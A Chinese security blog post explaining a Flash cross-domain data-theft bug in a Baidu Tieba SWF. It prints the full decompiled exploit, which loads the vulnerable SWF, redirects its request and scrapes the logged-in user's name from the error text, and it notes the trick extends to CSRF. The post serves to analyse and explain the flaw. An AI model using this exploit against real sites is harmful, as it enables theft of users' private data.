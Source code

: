```yaml
---
id: 287
layout: post
title: 'flash被跨域调用导致的安全风险'
date: 2015-06-17 22:25:00
author: virusdefender
tags: 安全
---
```


flash也是可以和js一样动态的请求和加载，类似这样
a.com上的a.swf
```js
var myLoader:Loader = new Loader();                     
var url:URLRequest = new URLRequest("http://b.com/b.swf"); 
myLoader.load(url);
addChild(myLoader);  
```
但是默认情况下是swf是不能被跨域引用的，所以这个调用不一定成功，只有在b.swf设置了`System.security.allowDomain("a.com")`或者`System.security.allowDomain("*")`的情况下才可以。

这样的话，b.swf中的有一些方法就可以在a.swf中调用了，而且发送的请求会显示来自b.swf，造成了跨域请求，大部分的浏览器是携带cookies的（貌似safari不发送）。

在 [http://weibo.com/2313289447/CmZQrqa4R?type=comment][1] 里面有一个跨域获取百度贴吧用户名的demo，就是利用了百度贴吧里面一个swf的这个漏洞。swf在这也[备份了一个][2]。


<!--more-->


首先看一下exp的反编译后的代码。
```java
package {
    import flash.utils.*;
    import flash.display.*;
    import flash.system.*;
    import flash.net.*;
    import flash.events.*;
    import flash.external.*;

    public class exp extends Sprite {

        private static const PATH:String = "baidu.vote.DataManager";
        private static const URL:String = "http://tieba.baidu.com/tb/static-itieba3/swf/itiebaVote.swf";

        private var clsExp;
        private var clsRes;
        private var nick:String;

        public function exp(){
            var ld:* = null;
            var tid:* = 0;
            super();
            Security.allowDomain("*");
            ld = new Loader();
            ld.load(new URLRequest(URL));
            addChild(ld);
            tid = setInterval(function ():void{
                try {
                    clsExp = ld.contentLoaderInfo.applicationDomain.getDefinition(PATH);
                    clsRes = ld.contentLoaderInfo.applicationDomain.getDefinition("baidu.vote.enumerate.Constants");
                } catch(e:Error) {
                    return;
                };
                clearInterval(tid);
                ready();
            }, 100);
        }
        private function load(url:String):void{
            var obj:* = this.clsExp.getInstance();
            obj.requestPageData({
                r:1,
                voteId:1,
                tn:1
            });
            this.clsRes.URL_VOTE_DETAIL = (url + "#");
            obj.requestVoteDetail();
        }
        private function ready():void{
            loaderInfo.uncaughtErrorEvents.addEventListener(UncaughtErrorEvent.UNCAUGHT_ERROR, function (e:UncaughtErrorEvent):void{
                complete(e.error.text);
            });
            this.load("http://tieba.baidu.com/");
        }
        private function complete(data:String):void{
            var arr:Array;
            arr = data.match(/"name": "([^"]+)/);
            if (arr){
                this.nick = arr[1];
            };
            ExternalInterface.call("bdcallback", this.nick);
        }

    }
}//package
```
加载了`http://tieba.baidu.com/tb/static-itieba3/swf/itiebaVote.swf`这个swf，然后调用了里面的`requestVoteDetail`方法，我们再反编译一下百度贴吧的swf，看看这个方法是干什么的。

```java
private function initialize():void{
            System.useCodePage = true;
            Security.allowDomain("*");
            stage.scaleMode = "noScale";
            ......
```

请求网络的代码
```java
public function requestVoteDetail():void{
            var _local1:String = Constants.URL_VOTE_DETAIL;
            _local1 = (_local1 + pageData.voteId);
            _local1 = (_local1 + ("?alt=json&stamp=" + Math.random()));
            var _local2:URLRequest = new URLRequest(_local1);
            var _local3:URLLoader = new URLLoader();
            _local3.addEventListener(Event.COMPLETE, onVoteDetailComplete);
            _local3.addEventListener(IOErrorEvent.IO_ERROR, onVoteDetailError);
            _local3.load(_local2);
        }
```
处理访问数据的方法
```java
private function onVoteDetailComplete(_arg1:Event):void{
            var _local2:URLLoader = (_arg1.currentTarget as URLLoader);
            _local2.removeEventListener(Event.COMPLETE, onVoteDetailComplete);
            _local2.removeEventListener(IOErrorEvent.IO_ERROR, onVoteDetailError);
            var _local3:String = (_local2.data as String);
            _voteDetail = VoteDetail.fromJsonString(_local3);
            if (((_voteDetail) && ((_voteDetail.errno == 0)))){
                dispatchEvent(new DataManagerEvent(DataManagerEvent.VOTE_DETAIL_OK));
            } else {
                dispatchEvent(new DataManagerEvent(DataManagerEvent.VOTE_DETAIL_ERROR));
            };
        }
```
然后是json解码
```java
public static function fromJsonString(_arg1:String, _arg2:Boolean=false):VoteDetail{
            var _local3:Object = JSON.decode(_arg1);
            return (fromObject(_local3, _arg2));
        }
```
但是这个地方请求获取的是html，不是json，所以处理就会抛出异常，自己catch住就好了，异常的信息里面是包含html的。

这样就造成了一个跨域读取的漏洞，不仅仅是获取用户名，更可以csrf啊。

ps: 在wooyun上搜flash漏洞的时候，我才发现这个漏洞其实已经被报告给百度了，竟然还没修复，23333333

参考

[http://www.cnblogs.com/index-html/p/swf-reflect-priv.html][3]

[http://wooyun.org/bugs/wooyun-2010-0110065][4]

其他的flash安全相关的文章 [http://drops.wooyun.org/tips/2924][5]


  [1]: http://weibo.com/2313289447/CmZQrqa4R?type=comment
  [2]: https://dn-virusdefender-blog.qbox.me/2016/437876600.swf
  [3]: http://www.cnblogs.com/index-html/p/swf-reflect-priv.html
  [4]: http://wooyun.org/bugs/wooyun-2010-0110065
  [5]: http://drops.wooyun.org/tips/2924
